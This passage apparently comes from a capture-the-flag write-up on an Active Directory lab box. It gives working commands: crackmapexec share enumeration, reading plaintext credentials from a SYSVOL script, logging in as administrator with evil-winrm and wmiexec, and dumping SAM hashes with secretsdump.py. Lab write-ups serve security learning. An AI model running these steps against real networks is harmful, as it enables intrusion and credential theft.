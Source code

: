 
Using crackmapexec to see if we can access any shares, and this time around we have Read access on the "NETLOGON and SYSVOL" shares

{% code overflow="wrap" lineNumbers="true" %}
```bash
crackmapexec smb 10.10.27.191 vulnnet-rst.local/ -u enterprise-core-vn -p ry=ibfkfv,s6h, --shares
```
{% endcode %}

<figure><img src=".gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

We saw a "ResetPassword.vbs" file in the SYSVOL/vulnnet-rst.local/scripts/ share folder which contains some credentials:

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

Let use crackmapexec to see if we can authenticate to shares:

`crackmapexec smb 10.10.68.222 vulnnet-rst.local/ -u a-whitehat -p bNdKVkjv3RR9ht --shares` - and we saw "pwn3d" meaning we got an Administrator credential.

<figure><img src=".gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

Tried to authenticate/login using Evil-WinRM again or use "wmiexec" tool.

`wmiexec.py vulnnet-rst.local/a-whitehat@10.10.68.222` - using wmiexec.

`evil-winrm -u a-whitehat -p 'bNdKVkjv3RR9ht' -i 10.10.68.222` - and we got in.

Since we are member of the local administrator group, we can dump SAM/SYSTEM hashes.

There are 2 ways to do this:

1. We can simply create a backup of the SYSTEM and the SAM file, and use "Impacket's secretsdump.py" to dump the SAM hashes.
2. Or, we could use "Impacket's secretsdump.py" directly to dump the SAM hashes from kali, since we have credentials. This way is faster, because the BOX is really really slow.

`secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.68.222` - and we got the hashes.

<figure><img src=".gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>
